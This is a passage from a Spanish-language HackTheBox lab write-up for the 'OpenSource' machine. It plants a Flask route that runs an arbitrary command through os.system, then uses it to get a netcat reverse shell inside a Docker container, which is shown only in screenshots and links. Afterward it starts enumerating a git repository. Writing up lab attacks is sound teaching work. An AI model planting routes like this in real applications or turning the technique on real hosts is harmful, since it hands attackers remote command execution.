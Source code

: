```py
...
@app.route('/acaestalamagiaoculta')
def magia():
  os.system('COMMAND')
  return "ola emo jaqueau"
```

Con lo que al hacer una petición hacia `http://10.10.11.164/acaestalamagiaoculta` se ejecutaría el comando que coloquemos :D

* [Acá hay varias maneras de generar una reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

Yo usaré la de [Netcat de toda la vida](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd), levantamos de nuevo el puerto **4433**, damos forma al payload:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471burp_req_upcloud_viewsPYrevsh.png" style="width: 100%;"/>

Subimos archivo y si vamos a la nueva rutaaaaaaaa y vemos nuestro listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_rce_viewsPY_revsh.png" style="width: 100%;"/>

Estamos dentro del contenedor con una terminal (: A ver con que nos encontramos...

> Aprovechemos para automatizar esto y obtener una shell desde un script en python:
> [arbitrawrite_dockerce.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/opensource/arbitrawrite_dockerce.py)

---

# Port Forwarding: Docker -> dev01 [#](#fortwarding-gitea) {#fortwarding-gitea}

Después de muuuuuuuuuuuuuuuu(uuuuuu)cha enumeración sobre el contenedor y sin encontrar nada decidí volver a ver si es que nos estábamos dejando algo... Y sí.

Si nos fijamos el objeto `source.zip` tiene contenido de un repositorio de [Git](https://www.atlassian.com/es/git/tutorials/what-is-git):

```bash
❱ ls -lago
total 2440
drwxr-xr-x 1      96 may 24 19:47 .
drwxr-xr-x 1      28 may 24 19:47 ..
drwxrwxr-x 1      64 abr 28 06:45 app
-rwxr-xr-x 1     110 abr 28 06:40 build-docker.sh
drwxr-xr-x 1      32 abr 28 06:34 config
-rw-rw-r-- 1     574 abr 28 07:50 Dockerfile
drwxrwxr-x 1     144 may 25 23:13 .git
```

Si ingresamos podemos jugar con el histórico de commits (que serian los cambios por los que ha pasado el proyecto) y otras cositas llamativas, pero como forma de enumeración nos enfocaremos en eso:
